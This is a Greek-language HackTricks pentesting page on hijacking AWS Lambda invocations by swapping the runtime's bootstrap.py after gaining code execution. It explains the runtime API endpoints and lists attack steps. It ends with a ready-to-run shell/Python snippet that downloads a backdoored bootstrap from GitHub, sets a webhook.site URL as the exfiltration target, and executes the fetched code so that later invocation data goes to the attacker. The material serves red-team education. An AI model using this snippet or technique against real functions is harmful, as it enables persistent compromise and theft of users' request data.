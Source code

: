 # AWS - Κλοπή Αιτημάτων Lambda

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) στο GitHub.

</details>

## Ροή Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** είναι ένας διεργασία έξω από τον εμπορευματοκιβώτιο που **στέλνει** **κλήσεις** στη διαδικασία **init**.
2. Η διαδικασία init ακούει στη θύρα **9001** αποκαλύπτοντας μερικά ενδιαφέροντα σημεία:
* **`/2018-06-01/runtime/invocation/next`** – λήψη του επόμενου συμβάντος κλήσης
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – επιστροφή της απάντησης του χειριστή για την κλήση
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – επιστροφή σφάλματος εκτέλεσης
3. Το **bootstrap.py** έχει έναν βρόχο που λαμβάνει κλήσεις από τη διαδικασία init και καλεί τον κώδικα των χρηστών για να τις χειριστεί (**`/next`**).
4. Τέλος, το **bootstrap.py** στέλνει στη διαδικασία init την **απάντηση**

Σημειώστε ότι το bootstrap φορτώνει τον κώδικα του χρήστη ως ένα πρόσθετο, οπότε οποιαδήποτε εκτέλεση κώδικα που πραγματοποιείται από τον κώδικα των χρηστών συμβαίνει πραγματικά σε αυτήν τη διαδικασία.

## Κλοπή Αιτημάτων Lambda

Ο στόχος αυτής της επίθεσης είναι να κάνει τον κώδικα των χρηστών να εκτελέσει μια κακόβουλη διαδικασία **`bootstrap.py`** μέσα στη διαδικασία **`bootstrap.py`** που χειρίζεται το ευάλωτο αίτημα. Με αυτόν τον τρόπο, η **κακόβουλη διαδικασία bootstrap** θα αρχίσει να **επικοινωνεί με τη διαδικασία init** για να χειριστεί τα αιτήματα ενώ το **νόμιμο** bootstrap είναι **παγιδευμένο** εκτελώντας τον κακόβουλο, έτσι δεν θα ζητήσει αιτήματα από τη διαδικασία init.&#x20;

Αυτό είναι ένα εύκολο έργο να επιτευχθεί καθώς ο κώδικας του χρήστη εκτελείται από το νόμιμο **`bootstrap.py`** διαδικασία. Έτσι ο επιτιθέμενος θα μπορούσε:

* **Αποστολή ψεύτικου αποτελέσματος της τρέχουσας κλήσης στη διαδικασία init**, έτσι η init νομίζει ότι η διαδικασία bootstrap περιμένει για περισσότερες κλήσεις.
* Πρέπει να σταλεί ένα αίτημα στο **`/${invoke-id}/response`**&#x20;
* Το invoke-id μπορεί να αποκτηθεί από τη στοίβα της νόμιμης **`bootstrap.py`** διαδικασίας χρησιμοποιώντας το [**inspect**](https://docs.python.org/3/library/inspect.html) πακέτο της Python (όπως [προτείνεται εδώ](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ή απλά ζητώντας το ξανά από το **`/2018-06-01/runtime/invocation/next`** (όπως [προτείνεται εδώ](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Εκτέλεση μιας κακόβουλης **`boostrap.py`** που θα χειριστεί τις επόμενες κλήσεις
* Για λόγους αόρατης λειτουργίας, είναι δυνατόν να σταλούν οι παράμετροι κλήσης των λάμδα σε έναν ελεγχόμενο από τον επιτιθέμενο C2 και στη συνέχεια να χειριστεί τα αιτήματα όπως συνήθως.
* Για αυτήν την επίθεση, είναι αρκετό να αποκτήσετε τον αρχικό κώδικα του **`bootstrap.py`** από το σύστημα ή το [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), προσθέσετε τον κακόβουλο κώδικα και τρέξετέ τον από την τρέχουσα κλήση λάμδα.

### Βήματα Επίθεσης

1. Βρείτε μια ευπάθεια **RCE**.
2. Δημιουργήστε έναν **κακόβουλο** **bootstrap** (π.χ. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Εκτελέστε** τον κακόβουλο bootstrap.

Μπορείτε εύκολα να εκτελέσετε αυτές τις ενέργειες τρέχοντας:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Για περισσότερες πληροφορίες ελέγξτε [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Αναφορές

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
